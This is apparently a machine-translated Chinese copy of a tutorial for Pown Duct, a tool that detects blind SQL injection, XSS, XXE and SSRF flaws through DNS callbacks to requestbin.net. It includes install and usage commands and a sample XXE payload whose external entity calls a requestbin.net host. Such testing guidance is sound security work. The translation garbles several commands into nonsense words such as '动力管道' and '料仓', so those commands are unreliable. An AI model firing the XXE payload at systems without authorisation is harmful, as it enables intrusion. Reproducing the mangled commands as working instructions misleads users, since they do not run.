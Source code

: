 # Pown Duct:发现盲注入攻击的重要工具

> 原文：<https://kalilinuxtutorials.com/pown-duct-blind-injection-attacks/>

**Pown Duct** 是利用 DNS 侧信道发现盲注入攻击的必要工具。这个工具是 secapps.com 开源项目[的一部分。](https://secapps.com/)

**注意:**该工具正在利用【http://requestbin.net】的[服务。未来的版本将使用专用的、定制的基础设施。](http://requestbin.net/)

**快速入门**

该工具旨在作为 [Pown.js](https://github.com/pownjs/pown) 的一部分使用，但也可以作为独立工具单独调用。

照常首先安装 Pown:

**$ npm install -g pown@latest**

直接从 Pown 调用:

**$动力管道**

否则，从项目的根目录本地安装此模块:

**$ NPM install @ pown/duct–保存**

完成后，调用 pown cli:

**$。/node_modules/。料仓/动力管道**

您还可以使用全局 pown 在本地调用该工具:

**$ POWN_ROOT=。动力导管**

**也可阅读-[Regipy:一个独立于操作系统的 Python 库，用于解析离线注册表配置单元](https://kalilinuxtutorials.com/regipy-python-library-registry-hives/)**

**用法**

**pown duct

Side-channel attack enabler

命令:
pown duct DNS DNS ducting

选项:
–版本显示版本号【布尔】
–帮助显示帮助【布尔】**

**动力管道 DNS**

**pown duct DNS

DNS ducting

选项:
–版本显示版本号【布尔】
–帮助显示帮助【布尔】
–通道还原通道【字符串】
–输出输出格式【字符串】【选择:“字符串”、“hexdump”、“json”】【默认:“字符串”]**

**教程**

有些情况下，我们需要执行 sql 注入、XSS、XXE 或 SSRF 等攻击，但目标应用程序没有提供任何易受攻击的迹象。确定是否存在漏洞的一种方法是尝试注入有效的攻击媒介，迫使 DNS 解析器请求受控域。如果解析成功，攻击将被视为成功。

**注意**:您可能熟悉 Burp Collaborator，它为客户提供类似的服务。

首先，我们需要一个一次性的 dns 名称来解析:

**$ pown 管道域名系统**

![](img/90818a40602c6132ebb2bbfb7cb8b675.png)

使用提供的 DNS，组成您的有效负载。例如，如果存在 XXE 漏洞，以下内容可能会触发 DNS 解析。

```
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY bar SYSTEM "http://showmethemoney.bfa8b8d3c25f09d5429f.d.requestbin.net">
]>
<foo>
&bar;
</foo>
```

如果攻击成功，我们会在终端中得到一条消息。

![](img/15d2426b33c018e7d935c23aecd590c3.png)[**Download**](https://github.com/pownjs/pown-duct)